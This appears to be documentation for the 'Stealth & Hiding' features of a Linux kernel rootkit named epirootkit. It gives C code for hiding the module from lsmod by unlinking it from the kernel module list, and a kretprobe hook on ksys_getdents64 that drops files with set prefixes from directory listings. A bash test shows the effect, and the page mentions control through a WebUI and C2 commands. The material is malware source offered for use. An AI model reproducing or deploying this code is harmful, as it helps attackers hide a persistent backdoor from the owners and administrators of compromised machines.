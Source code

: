 ```yaml
---
title: "Stealth & Hiding"
description: "Module hiding and file hiding capabilities"
icon: "visibility_off"
date: "2025-05-25T00:00:00+01:00"
lastmod: "2025-05-25T16:00:00+01:00"
draft: false
toc: true
weight: 512
---
```


# Stealth & Hiding

Hide the rootkit module and files from system detection using kernel hooking techniques.

## Module Hiding

Hide the rootkit module from `lsmod` and `/proc/modules` by removing it from the kernel's module list.

### Implementation
```c
int hide_module(void)
{
    if (stealth_state.module_hidden) return 0;

    stealth_state.prev_module_entry = THIS_MODULE->list.prev;
    list_del(&THIS_MODULE->list);
    stealth_state.module_hidden = true;
    return 0;
}
```

**Technical Details:**
- Uses `list_del()` to remove from kernel module list
- Stores previous entry pointer for restoration
- Thread-safe with mutex protection
- Reversible operation

## File Hiding

Hide files with specific prefixes from directory listings by hooking the `getdents64` syscall.

### Syscall Hooking
```c
stealth_state.getdents_probe = (struct kretprobe) {
    .kp.symbol_name = "ksys_getdents64",
    .handler = getdents64_ret_handler,
    .entry_handler = getdents64_entry_handler,
    .data_size = sizeof(struct getdents_context),
    .maxactive = 20
};
```

### How It Works
1. **Hook `ksys_getdents64`** - Intercept directory read syscalls
2. **Copy buffer** - Move directory data to kernel space
3. **Filter entries** - Remove files matching hidden prefixes
4. **Return filtered** - Send modified buffer back to userspace

### Hidden Prefixes
```c
static const char * const hide_prefixes[] = { 
    "epirootkit",
    "jules_est_bo_", 
};
```

## Usage

### WebUI Control
Access via Configuration panel:
- **Module Hiding**: Toggle rootkit visibility
- **File Hiding**: Toggle file hiding functionality

### Testing
```bash
# Create test files
touch /tmp/epirootkit_test /tmp/normal_file

# Check visibility (file hiding enabled)
ls /tmp/
# Shows: normal_file (epirootkit_test hidden)

# File still accessible
cat /tmp/epirootkit_test  # Works normally
```


Both features are **enabled by default** and can be toggled dynamically via the WebUI or C2 commands.